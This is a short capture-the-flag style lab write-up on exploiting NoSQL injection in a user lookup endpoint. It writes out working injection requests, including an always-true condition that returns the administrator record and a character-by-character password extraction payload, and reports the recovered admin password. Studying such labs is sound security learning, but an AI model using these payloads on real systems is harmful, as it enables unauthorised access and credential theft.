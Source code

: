 # Exploiting NoSQL injection to extract data
First, I thought there was a suspicious endpoint - and I tried sending a qoute.
`GET /user/lookup?user=wiener' HTTP/2`
It returned an error:
```json
{
  "message": "There was an error getting user details"
}
```
I then sent something that would always evaluate to true:
`GET /user/lookup?user=wiener' || '1'=='1 HTTP/2`
And it gave me admin account.
```json
{
  "username": "administrator",
  "email": "admin@normal-user.net",
  "role": "administrator"
}
```
I then wanted to try and exfiltrate the password of the admin account by guessing characters one by one. 
`GET /user/lookup?user=administrator'+%26%26+this.password[0]+%3d%3d+'k HTTP/2`
This would allow me to do exactly that.
Here, I can guess the characters one by one. I wrote a small python script to bruteforce it which you can find [here](./assets/exfiltrate.py)
It returned this password: `taitffna`
And I logged in as administrator and solved the lab.